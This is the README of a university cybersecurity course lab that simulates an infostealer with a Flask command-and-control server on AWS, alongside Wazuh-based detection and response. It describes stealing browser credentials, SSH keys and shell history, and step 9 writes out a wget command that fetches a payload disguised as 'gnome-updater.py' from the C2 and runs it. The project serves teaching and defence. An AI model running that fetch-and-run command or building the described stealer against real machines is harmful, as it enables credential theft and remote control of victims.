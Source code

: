 # 🕵️‍♂️ InfoStealer and C2 Persistence

[![Status](https://img.shields.io/badge/Status-Educational%20Project-blue.svg)](https://www.unb.br/)
[![License](https://img.shields.io/badge/License-MIT-green.svg)](LICENSE)

This repository presents an infostealer malware project with Command & Control (C2) infrastructure, developed for educational purposes in the **CyberSecurity Fundamentals** discipline at **UnB 2025.1**.

## 🎯 Project Objective

The main objective is to develop and implement a laboratory environment for simulating a cyberattack focused on **credential and sensitive data theft via Infostealer**, and maintaining **persistence through a C2 infrastructure**. The simulation aims to understand the dynamics of such attacks and propose **comprehensive solutions** (technical, operational, and procedural) for their detection, prevention, and mitigation.

This work was developed as part of the **CyberSecurity Fundamentals Seminar at UnB 2025.1**.

## ✨ Features

The project simulates a multi-stage attack, including the following key components:

* **HID Device Infection Vector (Simulated BadUSB):**
    * Simulates a USB drive that emulates a keyboard (BadUSB) to inject initial commands into the victim machine.
    * Injects commands to download and execute the Infostealer autonomously on the target machine.
* **Infostealer (Malicious Client):**
    * Developed in **Python** for multi-platform compatibility (Linux demonstrated).
    * Collects browser credentials (**Firefox**, **Chromium**).
    * Collects sensitive files (**.bash_history**, **SSH keys**).
    * Searches for **.txt** files containing keywords in their names.
    * Collects system information.
    * Exfiltrates complete files and collected information to the C2 via **HTTP POST**.
* **Command & Control (C2 Server):**
    * Implemented in **Flask (Python)**.
    * Receives and stores exfiltrated data, organized by victim ID and category.
    * Serves the `gnome-updater.py` payload for download.
    * Allows the operator to send arbitrary commands to the Infostealer client, receiving the output.
    * Maintains client persistence.

## ⚙️ Lab Setup

1. **Install Required Tools**
    - Download and install [Terraform](https://www.terraform.io/downloads.html).
    - Download and install [Ansible](https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html) (not just the core).
    - Download and install [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html).

2. **Set Up AWS Credentials and SSH Keys**
    - Create an AWS account and generate an Access Key for CLI usage.
    - Run `aws configure` to set up your credentials.
    - Create a SSH `key_pair` for your VMs

3. **Configure Variables**
    - Edit `variables.tfvars` and set your `key_pair` and IP address.
    - You can find your IP address with:  
      ```bash
      curl https://ipinfo.io/ip
      ```

4. **Prepare Deployment Script**
    - Make the deployment script executable:  
      ```bash
      chmod +x deploy.sh
      ```

5. **Deploy Infrastructure**
    - Run the deployment script, passing the path to your private key:  
      ```bash
      ./deploy.sh path-to-private-key
      ```
    - The script runs `terraform apply -auto-approve` and `ansible-playbook -i hosts playbook.yaml`.  
      You can also run these commands manually if needed and for terraform run `terraform apply` without `-auto-approve` to be asked to perform the actions.

6. **Access the Virtual Machines**
    - SSH into the web server VM:  
      ```bash
      ssh ubuntu@<IP_VM> -i path-to-private-key
      ```

7. **Troubleshooting**
    - **Connection timeout during deployment:**
      If you see an error like:
      ```
      fatal: [<IP>]: UNREACHABLE! => {"changed": false, "msg": "Failed to connect to the host via ssh: ssh: connect to host <IP> port 22: Connection timed out", "unreachable": true}
      ```
      This can rarely happen when running `deploy.sh`. If it does, simply run the script again.

    - **Wazuh active response scripts permission error:**
      If the deployment fails with permission errors for Wazuh active response scripts:
      ```
      failed: [<WAZUH_IP>] => {"msg": "chgrp failed: failed to look up group ossec"}
      ```
      This happens when the scripts are copied before the Wazuh service creates the proper groups. To fix:
      ```bash
      ssh -i /path/to/your/key.pem ubuntu@<WAZUH_IP>
      sudo chown -R root:wazuh /var/ossec/active-response/bin/
      sudo systemctl restart wazuh-manager
      ```

8. **Manual Fix**
    - On the victim **and** protected VMs, you need to run a script to seed the sensitive data in the machines:
      ```bash
      cd /tmp && ./seed_sensitive_files.sh
      ```

9. **Simulate and Detect the InfoStealer Attack**
    - On the victim VM, run (simulation of the USB):
      ```bash
      cd /tmp && wget ${C2_URL}/security_debian_x386 -O gnome-updater.py && chmod +x gnome-updater.py && python3 gnome-updater.py
      ```

10. **Destroy and Clean Up the Environment**
    - To remove all provisioned resources and avoid unnecessary charges, run:
        ```bash
        terraform destroy
        ```
- **WARNING: If you do NOT destroy the infrastructure after use, AWS may CHARGE YOU for active resources if you exceed the AWS Free Tier limits!**

## 💾 Storage and Free Tier Considerations

- **VM Storage:** The Wazuh VM is configured with 30GB of storage to accommodate the Wazuh Manager installation and logs
- **Free Tier Limits:** AWS Free Tier includes 30GB of EBS storage, so this configuration stays within limits
- **Disk Space Management:** Wazuh generates logs and can consume significant disk space over time. Monitor usage with:
  ```bash
  ssh -i /path/to/your/key.pem ubuntu@<WAZUH_IP> "df -h"
  ```
- **Storage Optimization:** If you need to extend usage, consider implementing log rotation and cleanup policies


> **NOTE:** While this setup is designed to stay within AWS Free Tier limits, you may incur small charges (a few cents) for data transfer.

## 🛡️ Detection and Mitigation Strategies

The project emphasizes proposing comprehensive solutions for detecting, preventing, and mitigating the simulated attack.

### **🔍 Dynamic Threat Detection**
The system uses **Zero Trust** principles and **real-time monitoring** to detect threats:

* **Network Behavior Analysis**: Monitors all network connections and flags external IPs contacted by Python processes
* **Dynamic IP Blocking**: Automatically blocks IPs when suspicious C2 communication is detected
* **Behavioral Patterns**: Identifies infostealer patterns (file access + network communication + persistence)
* **No Pre-configured Targets**: The system discovers threats organically without knowing attacker IPs in advance

### **⚡ Automated Response Actions**
When threats are detected, the system automatically:

1. **Kills malicious Python processes** immediately
2. **Disables suspicious systemd services** 
3. **Blocks C2 communication** via iptables rules
4. **Quarantines malicious files** for analysis
5. **Logs all activities** for forensic investigation

* **Technical Controls:** Firewall, EDR/Antivirus, OS hardening, log monitoring, network traffic analysis (IDS/IPS).
* **Operational Measures:** Incident Response Plan (IRP), threat hunting, backups.
* **Procedural Measures:** User awareness regarding social engineering and secure USB usage, USB device usage policies, principle of least privilege.

## ⚠️ Disclaimer

**This project is strictly for educational purposes within the CyberSecurity Fundamentals discipline at the University of Brasília (UnB 2025.1). It must not be used in production environments, real networks, or for any malicious activity. Misuse of this code is the sole responsibility of the user.**

---

